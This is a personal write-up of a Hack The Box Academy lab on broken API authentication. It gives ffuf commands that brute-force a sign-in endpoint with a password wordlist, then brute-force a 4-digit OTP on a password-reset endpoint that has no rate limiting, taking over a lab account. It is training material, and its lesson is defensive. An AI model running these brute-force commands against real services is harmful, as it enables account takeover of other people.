# Hack The Box Academy - Broken Authentication | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Category:** API / Web &nbsp;•&nbsp; **Difficulty:** Medium
>
> **Target:** `154.57.164.82:30595` (later `154.57.164.82:32245` after a respawn) &nbsp;•&nbsp; **Time taken:** 35 mins
>
> **Author:** Jithin Jelson

---

## Introduction

In this API Attacks lab we have been told there is a weak password policy that we can utilize to crack passwords and gain access to the email MasonJenkins@ymail.com. We will verify this and use a wordlist and ffuf to brute force our way in.

Credentials given: `htbpentester3@hackthebox.com:HTBPentester3`

---

## Assessment Overview



---

## What I Learned

- How to enumerate a customer account through the current-user and roles endpoints to understand what it can do.
- Testing a password policy by abusing the account's own update endpoint, which revealed a weak 6-character minimum.
- Why a password brute-force can be the wrong approach, and how to recognise when to pivot to a different endpoint.
- Abusing an OTP-based password reset that had no rate limiting, so a 4-digit code could be brute-forced in seconds.
- Using ffuf's response matching to pick the single successful attempt out of ten thousand failures.
- That timing matters, because the OTP is only valid for five minutes and must be generated immediately before the brute-force.

---

## Authorising as the Customer

We can start by navigating to our website followed by `/swagger/index.html` and using the credentials in the customer sign-in area. From there we can get our JWT token and then authorise ourselves.



*Figure 1 - Signing in as htbpentester3 through the customers/sign-in endpoint*

Now we can find our information in the current-user tab.



*Figure 2 - Our own customer details returned by customers/current-user*

We can also get information on what roles we have access to.



*Figure 3 - Our roles: Customers_UpdateByCurrentUser, Customers_Get, and Customers_GetAll*

We have information on all customers, which is a vulnerability on its own.



*Figure 4 - Customers_GetAll returns every customer's details*

---

## Testing the Password Policy

As we have sensitive information, we also have the option to update the current user, which we can use to test the password policy.

```
PATCH /api/v1/customers/current-user
```

We can see if we change our password to a weak value we get a true message, which means the implemented password policy is very weak.



*Figure 5 - The update succeeds with a weak password, confirming a weak policy*

Usually to crack passwords we would use rockyou.txt, but the lab has given us the email and password targets to exploit, so we will use that. We can now go back to get our request body to put into ffuf, this is the information we need.



*Figure 6 - The sign-in request body we will translate into an ffuf payload*

So we can now translate this into ffuf. The account we have been told to exploit is:

### MasonJenkins@ymail.com

First we can see our error message by generating a wrong password to filter it out with ffuf.



*Figure 7 - A wrong password returns the error message "Invalid Credentials"*

---

## First Attempt: Password Brute-Force

Now we have everything for our payload. This is the payload we will use.

```bash
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS \
  -u http://154.57.164.82:30595/api/v1/authentication/customers/sign-in \
  -X POST -H "Content-Type: application/json" \
  -d '{"Email": "MasonJenkins@ymail.com", "Password": "PASS"}' \
  -fr "Invalid Credentials" -t 100
```

However this did not work, and upon further investigation it seems that our attack here isn't finding his password but rather resetting the password using another endpoint, using an OTP brute-force.



*Figure 8 - The passwords/resets endpoint, which notes OTPs are valid for only 5 minutes*

---

## Pivot: OTP Brute-Force on the Password Reset

For this we will create a password list from 0 to 9999 to be safe and use this to make our OTP string.

```bash
seq -w 0 9999 > otp-4digit.txt
```

Now we can trigger a password reset to our desired email.



*Figure 9 - Triggering an OTP to be sent for MasonJenkins@ymail.com*

Now we trigger an error message to help filter out our ffuf command. Note we changed IP at this stage because our server was hanging.

```bash
curl -X 'POST' 'http://154.57.164.82:32245/api/v1/authentication/customers/passwords/resets' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{"Email": "MasonJenkins@ymail.com", "OTP": "12222", "NewPassword": "string"}' \
  -s -w '\n%{size_download}\n' -o /dev/null
```



*Figure 10 - A wrong OTP response is 23 bytes*

From this we found out that OTP error strings are 23 bytes, so we can adjust our payload.

```bash
ffuf -w otp-4digit.txt:OTP \
  -u 'http://154.57.164.82:32245/api/v1/authentication/customers/passwords/resets' \
  -X POST \
  -H 'Content-Type: application/json' \
  -d '{"Email": "MasonJenkins@ymail.com", "OTP": "OTP", "NewPassword": "string"}' \
  -fs 23 -t 10
```



*Figure 11 - ffuf returns OTP 5887 with a 22-byte response, the successful match*

And we got our OTP. Now we can reset the password and log in as the user.



*Figure 12 - Resetting Mason's password with OTP 5887 returns SuccessStatus true*

And we got our endpoint too. And we get our token.



*Figure 13 - Signing in as MasonJenkins with the new password returns a JWT*

And we get our flag in the payment options screen.

> **What is the flag (Mason's payment options)?**

**Answer:** see note below (payment-options screenshot / flag value not included in the source notes)

---

## Closing Note

This lab was very poorly worded and I could not get it working for a while. It turns out it needed to be executed at the exact time, both the ffuf and the OTP generation, because the OTP is only valid for five minutes. The lab material did not cover OTP at all.
